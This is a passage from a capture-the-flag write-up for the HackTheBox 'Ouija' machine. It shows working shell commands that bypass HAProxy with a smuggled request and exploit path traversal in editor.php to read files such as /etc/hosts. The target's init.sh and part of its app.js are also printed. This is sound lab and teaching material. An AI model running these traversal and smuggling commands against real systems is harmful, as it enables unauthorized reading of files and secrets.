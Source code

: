 Both of the project files were requested with `editor.php`{:.filepath} and extracted from the response. Since we suspected that the _file_ parameter was dynamically pulling files from the disk, we tried traversing directories to read `/etc/passwd`{:.filepath}.

![Read init.sh from dev site](web-dev-read-init.png)
_Read `init.sh`{:.filepath} via smuggled request_

```sh
# Alternatively request editor.php with unintended HAProxy bypass

alias curl_haproxy_bypass="curl -0H Host: --proxy1.0 ouija.htb:80"

# Create function to fetch files from the remote filesystem
function ouija_dev_read_text_file() {
  curl_haproxy_bypass http://dev.ouija.htb/editor.php -sG --data-urlencode "file=$1" |
    sed -zE 's|.*<textarea[^>]*>||;s|</textarea>.*||'
}

ouija_dev_read_text_file init.sh | tee init.sh
ouija_dev_read_text_file app.js | tee app.js
ouija_dev_read_text_file ../../../../etc/hosts | tee etc-hosts
```
{:file="bryan@htb ➤ zsh" .nolineno}

From reading `/etc/hosts`{:.filepath}, we suspect that this filesystem belongs to a Docker[^software-docker] container judging by the hostname and subnet of the last entry.


### API

The Node.js Express[^software-express] application in `app.js`{:.filepath} appeared to be the one serving on port 3000, with `init.sh`{:.filepath} being the script to initialize the environment and soft-link `./.config/bin/process_informations`{:.filepath} to target `/proc`{:.filepath}.

```sh
#!/bin/bash

echo "$(date) api config starts" >>
mkdir -p .config/bin .config/local .config/share /var/log/zapi
export k=$(cat /opt/auth/api.key)
export botauth_id="bot1:bot"
export hash="[REDACTED]"
ln -s /proc .config/bin/process_informations
echo "$(date) api config done" >> /var/log/zapi/api.log

exit 1
```
{:file="init.sh"}

```js
var express = require('express');
var app = express();
var crt = require('crypto');
var b85 = require('base85');
var fs = require('fs');
const key = process.env.k;

app.listen(3000, ()=>{ console.log("listening @ 3000"); });

function d(b){
  s1=(Buffer.from(b, 'base64')).toString('utf-8');
  s2=(Buffer.from(s1.toLowerCase(), 'hex'));
  return s2;
}
function generate_cookies(identification){
  var sha256=crt.createHash('sha256');
  wrap = sha256.update(key);
```

[^tool-feroxbuster]: Speedy web content discovery tool - [FeroxBuster](https://github.com/epi052/feroxbuster)
[^tool-katana]: Advanced web crawler - [Katana by ProjectDiscovery](https://github.com/projectdiscovery/katana)
[^tool-ffuf]: Fast multipurpose web fuzzer - [FFuF (Fuzz Faster U Fool)](https://github.com/ffuf/ffuf)
[^software-gitea]: Self-hosted DevOps platform - [Gitea (Git with a cup of tea)](https://about.gitea.com/)
[^software-haproxy]: TCP/HTTP load balancer and proxy - [HAProxy](https://www.haproxy.org/)
[^software-docker]: Platform for deploying and managing containerized applications - [Docker](https://www.docker.com/)
[^software-express]: JavaScript web application framework - [Node.js Express](https://expressjs.com/)
[^tool-hash_extender]: Utility to assist in exploitation of secret-prefix MAC implementations - [Hash Extender by Ron Bowes](https://github.com/iagox86/hash_extender)
[^tool-radare2]: Unix-like reverse engineering framework - [Radare2](https://github.com/radareorg/radare2)
